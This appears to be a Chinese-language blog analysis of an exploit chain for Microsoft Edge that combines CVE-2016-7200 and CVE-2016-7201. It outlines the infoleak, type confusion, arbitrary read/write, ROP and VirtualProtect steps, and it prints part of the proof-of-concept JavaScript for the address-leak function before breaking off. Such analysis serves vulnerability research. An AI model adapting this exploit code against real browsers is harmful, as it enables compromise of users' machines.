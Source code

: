 ```yaml
---
title: CVE-2016-7200 & CVE-2016-7201 (Edge)
date: 2017-01-26 13:21:26
tags: 样本分析
---
```


# 利用过程分析

## 背景介绍
在Malware Don't Need Coffee上看到一个最新的Edge利用，拿出来看看，相应的EK sample和更多信息可以从[这里](http://malware.dontneedcoffee.com/2017/01/CVE-2016-7200-7201.html)获取。

为了简化sample分析过程，可以直接去git上拿[PoC Sample](https://github.com/theori-io/chakra-2016-11)。

## 利用过程
分析以后，会发现sample的利用过程，大致如下：
1.	利用CVE-2016-7200（Array.filter 中的InfoLeak 漏洞）， 泄露出传入对象的地址，这里是整形数组，可以参考PutDataAndGetAddr
2.	利用CVE-2016-7201（FillFromPrototypes中的类型混淆漏洞），将传入的地址所对应的内存混淆成另外一个var dv，参考TriggerFillFromPrototypesBug，这里传入的地址参数恰巧指向上面Array对象x的数据区域，然后，dv通过DataView.getUint32和DataView.setUint32实现任意地址读写
3.	利用这两个漏洞，得到NativeIntArray的虚表地址，通过偏移进一步确定chakra.dll的基址，以及chakra!ScriptSite::Execute函数返回地址
4.	构造Shellcode和ROP，并用ROP入口地址覆盖上面泄露出来的返回地址，使程序跳转到ROP执行
5.	ROP首先调用了VirtualProtect，修改shellcode所在堆区域的protect属性，可读写->可执行，最后程序跳转到shellcode处执行

## 细节剖析
### 先看看CVE-2016-7200，加了一些alert，用于帮助我们看到更多的信息
如果没有修改a的原型的动作，a.filter应该还是返回a本身。增加了这个原型修改以后，会变成每个对象的地址，当然，在X64环境下，每个对象有两个地址，高地址和低地址，各32位。

``` JavaScript
var x = (new Array(56, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0)).slice();
var [hi, lo] = PutDataAndGetAddr(x);

function PutDataAndGetAddr(t)
{
    alert("enter into PutDataAndGetAddr");
    var d = new Array(1,2,3);
    class dummy {
        constructor() {
            return d;
        }
    }
    class MyArray extends Array {
        static get [Symbol.species]() {
            return dummy;
        }
    }
    var a = new Array({}, t, "theori", 7, 7, 7, 7, 7);
    function test(i) {
        return true;
    }
    a.__proto__ = MyArray.prototype;
    alert(a);
    var o = a.filter(test);
    alert(o);
    var h = [];
    for (item in o) {
        var n = new Number(o[item]);
        if (n < 0) {
            n = n + 0x100000000;
        }
```